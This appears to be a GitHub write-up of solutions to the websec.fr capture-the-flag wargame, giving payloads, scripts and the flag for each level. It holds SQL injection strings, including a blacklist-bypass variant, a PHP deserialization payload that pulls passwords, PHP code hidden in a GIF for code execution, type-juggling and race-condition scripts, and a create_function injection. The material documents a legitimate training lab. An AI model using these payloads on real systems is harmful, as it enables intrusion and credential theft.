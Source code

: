 # Websec.fr-Writeups

## Level 1

```sql
0 union select id,password from users; --
```

```
WEBSEC{Simple_SQLite_Injection}
```

## Level 2

```sql
0 ununionion selselectect id,password frfromom users; --
```

```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

## Level 4

```php
$s = new SQL();
$s->SQL_query('select password as username from users;');
echo base64_encode(serialize(array("ip" => "109.186.77.58", "exploit" => $s)));

// a:2:{s:2:"ip";s:13:"109.186.77.58";s:7:"exploit";O:3:"SQL":2:{s:5:"query";s:39:"select password as username from users;";s:4:"conn";N;}}

// YToyOntzOjI6ImlwIjtzOjEzOiIxMDkuMTg2Ljc3LjU4IjtzOjc6ImV4cGxvaXQiO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjM5OiJzZWxlY3QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgZnJvbSB1c2VyczsiO3M6NDoiY29ubiI7Tjt9fQ==
```

```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

## Level 8

PHP Injected in GIF

```php
GIF89a;

<?php
print_r(scandir("."));
?>
```

```php
GIF89a;

<?php
echo file_get_contents('flag.txt');
?>
```

```
WEBSEC{BypassingImageChecksToRCE}
```

## Level 10

PHP Type Juggling

```python
#!/usr/bin/env python3
import requests

count = 1
while True:
    res = requests.get("http://websec.fr/level10/index.php?hash=0e1&f={}".format("." + count*"/" + "flag.php"))
    if (res.text.find("WEBSEC{") != -1):
        print(res.text)
        print(count)
        break
    else:
        count += 1
        print(count, len(res.text))
```

```
WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}
```

## Level 15

create_function() uses eval

```php
};echo $flag;//
```

```
WEBSEC{HHVM_was_right_about_not_implementing_eval}
```

## Level 17

Bypass strcasecmp by providing array instead of string

```yaml
"body": "flag[]=blabla&submit=Go"
```

```
WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
```

## Level 25

Exploit url_parse function

```
https://websec.fr/level25/index.php?page=flag&:1337
```

```
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
```

```
WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}
```

## Level 28

```
#!/usr/bin/env python3
import requests
import time

URL = "https://websec.fr/level28/tmp/"
FILE = "66b99941e5e007c9ceba59743b2a8270.php"

while True:
    res = requests.get(f"{URL}/{FILE}")
    if res.status_code != 404:
        print(res.text)
    else:
        print("NOPE")
    time.sleep(0.1)
```

```
<?php
include("../flag.php");
echo $flag;
?>
```

```
WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}
```
